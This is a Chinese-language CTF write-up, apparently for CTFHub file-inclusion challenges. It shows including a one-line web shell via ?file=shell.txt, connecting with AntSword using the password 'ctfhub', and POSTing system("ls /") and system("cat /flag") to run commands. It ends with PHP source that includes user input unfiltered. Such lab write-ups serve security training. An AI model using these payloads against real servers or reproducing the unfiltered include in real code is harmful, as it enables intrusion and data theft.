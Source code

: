 通过代码审计后 发现可以通过get方式上传参数 来利用文件包含漏洞 虽然不允许参数中出现flag字样 但是题目提示存在shell.txt文件 我们可以先尝试读取shell.txt文件

```python
?file=shell.txt
```

传参后页面发生跳转

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736863435118-3d2b106f-8ea8-469a-b952-93f563bb0c59.png)

我们发现shell是可以点击的  我们点击shell又发生页面跳转

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736863490604-9c31c083-cffe-41bb-8312-3cf67729eda5.png)

发现一句话木马可以尝试用中国蚁剑连接 不过连接地址为    密码为ctfhub

```python
靶机网址?file=shell.txt
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736864271938-c479ecec-cb00-4b29-8863-62d5afa65299.png)

连接成功后添加数据   在根目录下发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736864206353-47bc6018-e548-4e92-8aa8-e764b0e10080.png)

#### 第二种解法
由于在shell.txt文件中存在一个变量ctfhub 并且不可以直接文件包含有关flag的文件 

我们可以利用shell.txt文件中的eval函数来写入执行命令从而寻找到flag 所以可以利用system函数执行命令

```python
?file=shell.txt
ctfhub=system("ls /");              //这个变量用post方式上传
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736864743781-17ddbb4d-6449-46b7-895f-23aad9cb17b6.png)

利用插件hackbar传参成功 发现flag 接着利用cat读取flag

```python
?file=shell.txt
ctfhub=system("cat /flag");              //这个变量用post方式上传
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736864826626-03a50938-3fd1-4c41-a107-a2407d12712c.png)

### php://input
打开靶机后出现一段php代码

```python
 <?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
<a href="phpinfo.php">phpinfo</a> i don't have shell, how to get flag?
phpinfo
```
